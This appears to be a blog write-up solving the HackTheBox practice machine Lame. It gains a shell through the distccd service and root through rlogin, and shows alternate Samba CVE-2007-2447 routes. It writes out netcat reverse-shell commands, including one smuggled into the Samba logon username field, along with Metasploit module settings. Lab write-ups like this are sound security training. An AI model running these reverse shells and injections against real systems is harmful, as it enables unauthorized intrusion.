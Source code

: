 ```yaml
---
layout: post
title: Lame
subtitle: Lame HackTheBox
cover-img: /assets/img/htb-bg.png
thumbnail-img: /assets/img/Lame_Big.png
share-img: /assets/img/path.jpg
tags: [Linux, CVE]
---
```

<img src="https://github.com/susMdT/secondsite.github.io/blob/dev-pages/assets/img/Lame_Release.jpg?raw=true" class="mx-auto d-block" unselectable="on" />
Lame is an easy level box on HackTheBox and covers many basics. There are multiple approaches for this box and overall it was pretty fun. My approach was to exploit the `distccd` service to gain a foothold, and then using `rlogin` to gain root, as it required no password.

# Walkthrough
Start off by performing a complete, general nmap scan `nmap -p-`
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
Note that `distccd`, an exploitable service, is running. Remote code execution is possible through Metasploit. Using `exploit/unix/misc/distcc_exec`, set the payload to `cmd/unix/generic` with the command as `echo "nc -e /bin/bash <ip> <port>" > b.sh ; ./b.sh`. The options should look similar to this
```
Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/generic):

   Name  Current Setting                                                                     Required  Description
   ----  ---------------                                                                     --------  -----------
   CMD   echo "nc -e /bin/bash 10.10.14.4 4444" > b.sh ; chmod +x ./b.sh ; ./b.sh            yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
   ```
This payload creates a script for a reverse shell on the victim machine, makes it executable, then executes it. So before this exploit is run, make sure you have a listener open on your host with `nc -nvlp <port>`. After receiving a connection and upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")`, we should have something like this:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 52475
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$ 
```
Enumerating further with `nmap localhost` gives us much more information now.
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
953/tcp  open  rndc
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
3632/tcp open  distccd
4444/tcp open  krb524
5432/tcp open  postgres
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
```
Port 513, rlogin, is dated and vulnerable by default and doesn't require password by default. This can be exploited with `rlogin localhost -l root`.
```
daemon@lame:/tmp$ rlogin localhost -l root
rlogin localhost -l root
Last login: Thu Sep 30 10:48:49 EDT 2021 from :0.0 on pts/0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~#
```
We have successfully rooted the machine.

# Bonus
Something to note about this box is how many attack vectors there are and false leads. Version numbers for many services running were exploitable, but I had not done that on my initial attempt. 

## Alternate Approach: SMB 3.0.20, No metasploit
Doing a more detailed nmap scan, checking version numbers and using scripts with `nmap -sC -sV`, we can find that Samba is running.
```
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```
Googling the version (3.0.20), we can find that this version along with others between 3.0.0 and 3.0.25, are vulnerable to remote code execution (CVE-2007-2447). First, enumeration of the available shares is necessary through `smbmap -H 10.10.10.3`:
```
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```
Since access to the /tmp share is given, an attacker can connect to it and utilize the CVE. Connect to it via `smbclient //10.10.10.3/tmp`:
```
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
Anonymous logon was granted so that is why access was possible. From the Samba terminal, RCE is possible in this version. Running the command ``logon "./=`nohup nc -e /bin/sh <local ip> <local port>`"`` in the Samba terminal while having a listener on the attacking machine with `nc -nvlp <local port>` returns an error in the Samba terminal
```
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.4 4444`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
```
But on the listener, the attacker actually gains a root shell.
```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38533
whoami
root
```

## Alternate Approach: SMB 3.0.20, with Metasploit
Metasploit makes usages of the CVE much easier. Simply searching for this Samba version in the Metasploit console with `search exploit samba 3.0.20` returns
```
Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```
Using this exploit while setting our options
```
Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <local ip>       yes       The listen address (an interface may be specified)
   LPORT  <local port>     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
Will give us a root shell just like the previous method shown.
## Failed Attack Vectors
There were many failed attack vectors, some of the notable ones were: FTP and MySQL no root password. This FTP version (2.3.4) is vulnerable to an exploit that didn't work. Additionally, access to the locally hosted MySql database as the root user required no password, but the credentials and information found in the database weren't applicable anywhere.

--Dylan Tran 9/30/21
